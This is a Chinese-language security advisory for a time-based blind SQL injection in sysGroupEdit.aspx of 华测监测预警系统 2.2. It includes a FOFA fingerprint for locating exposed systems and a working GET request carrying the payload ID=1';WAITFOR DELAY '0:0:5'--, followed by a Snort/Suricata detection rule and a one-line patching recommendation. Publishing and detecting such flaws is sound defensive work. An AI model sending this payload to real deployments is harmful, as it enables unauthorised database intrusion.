

# 华测监测预警系统2.2 sysGroupEdit.aspx 存在SQL注入漏洞

华测监测预警系统2.2 sysGroupEdit.aspx 存在SQL注入漏洞

# 影响版本

2.2

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   icon\_hash\="-628229493"

## 漏洞POC

**POC/EXP：**

**step1**  演示注入

```
GET /Web/SysManage/sysGroupEdit.aspx?&ID=1';WAITFOR+DELAY+'0:0:5'-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close


```



**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"华测监测预警系统2.2 - sysGroupEdit.aspx ID SQL注入漏洞 (WAITFOR DELAY时间盲注)";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/Web/SysManage/sysGroupEdit.aspx"; fast_pattern;
        content:"ID="; distance:0;
        content:"WAITFOR"; nocase; distance:0; within:50;
        content:"DELAY"; nocase; distance:0; within:20;
    metadata:
        service http,
        affected_product "华测监测预警系统",
        affected_version "2.2",
        vulnerability_type "SQL Injection (Time-based blind)",
        severity "high";
    classtype:web-application-attack;
    sid:1000822;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

- **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。
